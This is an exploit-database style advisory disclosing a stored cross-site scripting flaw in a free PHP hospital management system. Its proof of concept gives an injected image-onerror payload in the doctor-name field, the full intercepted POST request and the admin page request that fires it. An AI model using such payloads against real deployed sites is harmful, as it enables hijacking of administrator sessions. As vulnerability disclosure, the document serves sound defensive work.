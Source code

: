 Exploit Title: Hospital Management System - Stored XSS

Application: Hospital Management System

Date: 11.11.2024

Bugs: XSS

Exploit Author: Salah Tayeh

Vendor Homepage: https://www.sourcecodester.com/

Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

Version: 1.0

# Description
Stored Cross Site Scripting (XSS) in the "Vaidya Mitra" healthcare application, specifically in the doctor's account settings functionality. The issue arises due to inadequate input validation in the doctor's name parameter, allowing an attacker to inject malicious scripts into the system, leading to a Cross-Site Scripting (XSS) vulnerability.

# Proof of Concept (PoC)


**1. Exploiting Doctor's Account Settings:**

The attacker, using the Burp Suite Proxy tool, intercepts and modifies a POST request sent by the doctor to update their account settings.
The payload <img/src/onerror=prompt(1)> is injected into the name parameter.
The manipulated request looks like the following:

POST /vm/doctor/edit-doc.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 203
...

id00=4&oldemail=salahtayeh13%40yahoo.com&email=salahtayeh13%40yahoo.com&name=Dr.+Salah+Tayeh+%3Cimg%2Fsrc%2Fonerror%3Dprompt%281%29%3E&nic=12345678&Tele=7070707070&spec=1&password=doctor&cpassword=doctor

Upon submission, the payload gets stored in the doctor's name field.

**2. Triggering XSS in Admin's View:**

An admin viewing doctors' information at http://localhost/vm/admin/doctors.php inadvertently triggers the XSS vulnerability.
The admin sends a GET request to view a doctor's details:

GET /vm/admin/doctors.php?action=view&id=4 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
...

The server returns the doctor's information, and the XSS payload in the name field is executed in the admin's browser, leading to the alert being triggered.

PoC - Video: https://drive.google.com/file/d/1Omjwoh6B2xh41c3Av0_VJsoR7tascb1_/view?usp=sharing
